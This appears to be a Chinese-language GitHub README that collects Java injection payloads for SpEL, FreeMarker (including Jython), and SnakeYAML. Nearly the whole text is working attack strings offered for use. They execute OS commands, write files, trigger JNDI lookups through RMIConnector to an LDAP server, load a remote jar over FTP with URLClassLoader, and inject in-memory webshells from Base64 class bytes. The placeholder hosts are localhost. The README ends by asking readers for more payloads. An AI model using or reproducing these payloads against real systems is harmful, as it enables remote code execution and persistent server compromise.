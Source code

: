 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()

加模板解析的payload
#{new java.lang.ProcessBuilder({'calc'}).start()}

可以回显时使用
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

可以打入内存马高版本Spring Core 受限

#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}

使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}

## FreeMarker 
执行命令
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}

写文件
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}

读文件
${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}

使用SPEL利用
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}

使用SPEL 进行JNDI
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}

使用SPEL 加载内存马
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}

使用Jython 
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

## YAML

ftp 可以换为HTTP 及其他支持协议
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]


各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
